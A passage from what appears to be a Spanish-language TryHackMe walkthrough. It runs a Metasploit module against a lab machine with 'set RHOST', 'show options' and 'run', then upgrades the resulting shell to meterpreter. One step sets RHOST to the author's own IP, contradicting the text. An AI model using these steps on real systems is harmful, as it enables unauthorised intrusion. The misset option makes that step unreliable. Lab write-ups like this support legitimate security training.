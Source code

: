 - Solo tengo que introducir la IP de la máquina victima y cambiar mi IP, porque al estar en TRYHACME me da otro rango la IP `10.2.37.7`. NO HAY QUE PONERSE A LA ESCUCHA. Me da directamente un `meterpreter`. 
```
set RHOST 10.10.231.27
```
```
set RHOST 10.2.37.7
```
```
show options
```
<p align="center">
    <img src="../img/Pasted_image_20240818113802.png" width="500">
</p>

#### 6- Ejecutar el exploit
```
run
```
<p align="center">
    <img src="../img/Pasted_image_20240817233657.png" width="500">
</p>
Ahora hemos recibido un shell, pero no podemos hacer mucho con él. Por lo tanto, ahora ponemos en segundo plano la sesión (1.ª) y actualizamos a un shell de meterpreter

